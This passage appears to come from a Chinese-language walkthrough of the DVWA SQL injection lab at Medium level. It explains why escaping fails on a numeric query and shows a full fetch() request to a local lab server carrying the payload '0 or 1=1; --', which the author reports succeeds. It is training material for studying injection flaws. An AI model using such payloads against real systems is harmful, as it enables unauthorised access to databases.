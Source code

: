 注意到两个改变：

1. `mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);`，对`$id`做了转义。
2. `"SELECT first_name, last_name FROM users WHERE user_id = $id;"`，变成了数字型注入。

按理说做了转义应该就没辙了，但还是先试试。F12从开发者工具里复制出请求，然后把`id`改成`0 or 1=1; --`，注意百分号编码而且`--`后面留一个空格。

```js
await fetch("http://localhost:8080/vulnerabilities/sqli/", {
  "headers": {
    "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
    "accept-language": "zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6",
    "cache-control": "no-cache",
    "content-type": "application/x-www-form-urlencoded",
    "pragma": "no-cache",
    "sec-ch-ua": "\" Not A;Brand\";v=\"99\", \"Chromium\";v=\"100\", \"Microsoft Edge\";v=\"100\"",
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": "\"Windows\"",
    "sec-fetch-dest": "document",
    "sec-fetch-mode": "navigate",
    "sec-fetch-site": "same-origin",
    "sec-fetch-user": "?1",
    "upgrade-insecure-requests": "1"
  },
  "referrer": "http://localhost:8080/vulnerabilities/sqli/",
  "referrerPolicy": "strict-origin-when-cross-origin",
  "body": "id=0%20or%201%3D1%3B%20--%20&Submit=Submit",
  "method": "POST",
  "mode": "cors",
  "credentials": "include"
});
```

![image-20220427145427860](image-20220427145427860.png)

好吧，这就直接成功了。到了这一步其实剩下的和 Low 难度就没区别了。

不过我对那个 `mysqli_real_escape_string` 还是很好奇，这个函数不是拿来防 SQL 注入的？查询文档如下。
